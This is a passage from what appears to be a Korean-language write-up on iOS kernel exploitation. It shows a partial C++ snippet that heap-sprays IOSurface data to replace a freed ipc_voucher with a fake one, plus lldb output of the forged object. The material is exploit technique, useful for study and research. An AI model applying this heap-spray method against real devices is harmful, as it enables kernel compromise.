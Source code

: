 ![image.png](pics/image%203.png)

그런 다음 사용자 클라이언트에 호출하여 제공된 데이터를 Surface에 설정할 수 있다:

```cpp
...
    trigger_gc_please(); 

    ret = IOSurface_set_value(spray_data, spray_size);
    INFO("IOSurface_set_value ret: %d\n", ret);
    if(ret == false) exit(1);
...
```

이 작업이 제대로 진행되었다면, 해제된 ipc_voucher는 이제 우리의 가짜 바우처로 교체되었고, 우리는 이를 힙 스프레이를 통해 커널 메모리에 복사한 것이다. 

```c
(lldb) p *(ipc_voucher_t)0xffffff8011049c80
(ipc_voucher) $1 = {
  iv_hash = 0
  iv_sum = 0
  iv_refs = (ref_count = 100)
  iv_table_size = 0
  iv_inline_table = ([0] = 0, [1] = 0, [2] = 0, [3] = 0, [4] = 0, [5] = 0, [6] = 0, [7] = 0)
  iv_table = 0x0000000000000000
  iv_port = nullptr
  iv_hash_link = {
    next = nullptr
    prev = nullptr
  }
}
```
